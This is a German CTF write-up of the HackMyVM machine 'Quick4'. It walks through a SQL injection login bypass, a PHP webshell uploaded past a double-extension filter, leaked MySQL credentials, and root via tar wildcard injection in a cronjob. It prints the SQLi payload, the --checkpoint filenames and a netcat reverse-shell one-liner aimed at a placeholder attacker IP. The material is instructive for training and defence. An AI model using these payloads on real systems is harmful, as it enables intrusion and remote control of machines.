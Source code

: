 # Quick4 - HackMyVM (Easy)

![Quick4.png](Quick4.png)

## Übersicht

*   **VM:** Quick4
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Quick4)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 2024-05-11
*   **Original-Writeup:** https://alientec1908.github.io/Quick4_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Quick4" zu erlangen. Der Weg dorthin begann mit der Entdeckung einer SQL-Injection-Schwachstelle im Login des `/employee/admin.php`-Bereichs, was den Zugriff auf das Mitarbeiterportal ermöglichte. Dort wurde eine unsichere Dateiupload-Funktion (`manageemployees.php`) gefunden, die das Hochladen einer PHP-Webshell mit einer doppelten Dateiendung (z.B. `.jpeg.php`) erlaubte. Dies führte zu Remote Code Execution (RCE) als `www-data`. Als `www-data` wurden MySQL-Datenbank-Credentials (`root:fastandquicktobefaster`) in `/customer/config.php` gefunden. In der Datenbank wurden Klartextpasswörter für verschiedene Benutzer entdeckt. Die finale Rechteausweitung zu Root gelang durch Ausnutzung einer Wildcard-Injection-Schwachstelle in einem Cronjob-Skript (`/usr/local/bin/backup.sh`), das `tar` mit einem unsicheren Wildcard (`*`) im Verzeichnis `/var/www/html/` ausführte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi`
*   `nmap`
*   `nikto`
*   `gobuster`
*   `curl` (impliziert)
*   Burp Suite (impliziert für Request-Interception)
*   `nc` (netcat)
*   `mysql` client
*   `awk`
*   `hydra` (versucht, nicht erfolgreich für SSH)
*   `find`
*   `sudo` (versucht)
*   `ss`
*   Standard Linux-Befehle (`touch`, `chmod`, `cat`, `ls`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Quick4" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.125) mit `arp-scan` identifiziert. Hostname `quick4.hmv` in `/etc/hosts` eingetragen.
    *   `nmap`-Scan offenbarte Port 22 (SSH, OpenSSH 8.9p1) und Port 80 (HTTP, Apache 2.4.52) mit dem Titel "Quick Automative - Home". `robots.txt` enthielt `Disallow: /admin/`.
    *   `nikto` und `gobuster` fanden Standardverzeichnisse sowie `/customer/` und `/careers/`. Der Zugriff auf `/admin/` schlug fehl. Das Verzeichnis `/customer/` enthielt eine PHP-Anwendung (`login.php` (Status 500), `config.php` (leer)).
    *   Mitarbeiterinformationen (Namen, E-Mails) wurden von der Webseite gesammelt.

2.  **SQL Injection & Employee Access & File Upload RCE (Initial Access als `www-data`):**
    *   Eine SQL-Injection-Schwachstelle wurde im Login-Formular von `/employee/admin.php` (Pfad erraten oder durch weitere Scans gefunden) ausgenutzt (z.B. Passwort: `' OR 1=1 -- -`), um Zugriff auf den Mitarbeiterbereich zu erlangen.
    *   Im Mitarbeiterbereich (`/employee/manageemployees.php`) wurde eine unsichere Dateiupload-Funktion für Profilbilder gefunden.
    *   Eine PHP-Reverse-Shell wurde präpariert (mit `GIF89a` am Anfang), mit `filename="rev.php"` und `Content-Type: image/jpeg` hochgeladen. Der Server speicherte die Datei mit doppelter Endung (z.B. als `/employee/uploads/USERID_rev.jpeg.php`).
    *   Durch Aufrufen der Datei mit der `.php`-Endung (z.B. `http://192.168.2.125/employee/uploads/2_revshell.jpeg.php`) wurde die Webshell ausgeführt.
    *   Eine Reverse Shell wurde zu einem Netcat-Listener (Port 4445) als `www-data` aufgebaut.

3.  **Post-Exploitation & Credential Discovery:**
    *   Als `www-data` wurde die Datei `/var/www/html/customer/config.php` gelesen. Diese enthielt MySQL-Zugangsdaten: Benutzer `root`, Passwort `fastandquicktobefaster`.
    *   Login in die lokale MySQL-Datenbank mit diesen Credentials.
    *   In der Datenbank `quick`, Tabelle `users`, wurden zahlreiche Benutzer mit ihren Passwörtern im Klartext gefunden (z.B. `nick.greenhorn:benni`, `admin:benni`).
    *   Die User-Flag (`HMV{7920c4596aad1b9826721f4cf7ca3bf0}`) wurde in `/home/user.txt` gefunden (lesbar als `www-data`).

4.  **Privilege Escalation (von `www-data` zu `root` via Cronjob Wildcard Injection):**
    *   `sudo -l` als `www-data` war nicht erfolgreich. Die SUID-Suche ergab keine einfachen Vektoren.
    *   Die Crontab (`/etc/crontab`) enthielt einen Eintrag, der minütlich als `root` das Skript `/usr/local/bin/backup.sh` ausführt.
    *   Das Skript `/usr/local/bin/backup.sh` enthielt den Befehl `cd /var/www/html/ && tar czf /var/backups/backup-website.tar.gz *`. Die Verwendung des Wildcards (`*`) ist anfällig für Wildcard Injection.
    *   Im Verzeichnis `/var/www/html/` (beschreibbar für `www-data`) wurden folgende Dateien erstellt:
        *   Ein Reverse-Shell-Skript `hacker.sh` (z.B. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ANGRIFFS_IP 5552 >/tmp/f`), das ausführbar gemacht wurde.
        *   `touch /var/www/html/--checkpoint=1`
        *   `touch /var/www/html/--checkpoint-action=exec=sh\ hacker.sh`
    *   Ein Netcat-Listener wurde auf Port 5552 gestartet.
    *   Nachdem der Cronjob lief, wurde `hacker.sh` durch `tar` als `root` ausgeführt, und eine Root-Shell wurde auf dem Listener empfangen.
    *   Die Root-Flag (`HMV{858d77929683357d07237ef3e3604597}`) wurde in `/root/root.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **SQL Injection (Authentication Bypass):** Umgehung eines Logins durch eine SQLi-Payload im Passwortfeld.
*   **Unsicherer Dateiupload (Doppelte Endung / Content-Type Bypass):** Ermöglichte das Hochladen einer PHP-Webshell durch Umgehung von Filtern.
*   **Klartext-Datenbank-Credentials in Konfigurationsdatei:** Das MySQL-Root-Passwort war in `config.php` gespeichert.
*   **Klartextpasswörter in Datenbank:** Benutzerpasswörter für die Webanwendung waren unverschlüsselt in der Datenbank gespeichert.
*   **Cronjob Wildcard Injection (tar):** Ein als Root laufender Cronjob verwendete `tar` mit einem unsicheren Wildcard (`*`) in einem von `www-data` beschreibbaren Verzeichnis, was RCE als Root ermöglichte.

## Flags

*   **User Flag (`/home/user.txt`):** `HMV{7920c4596aad1b9826721f4cf7ca3bf0}`
*   **Root Flag (`/root/root.txt`):** `HMV{858d77929683357d07237ef3e3604597}`

## Tags

`HackMyVM`, `Quick4`, `Easy`, `SQL Injection`, `File Upload RCE`, `Double Extension Exploit`, `Database Leak`, `Cleartext Passwords`, `Cronjob Exploit`, `Wildcard Injection`, `tar Exploit`, `Linux`, `Web`, `Privilege Escalation`, `Apache`, `MySQL`
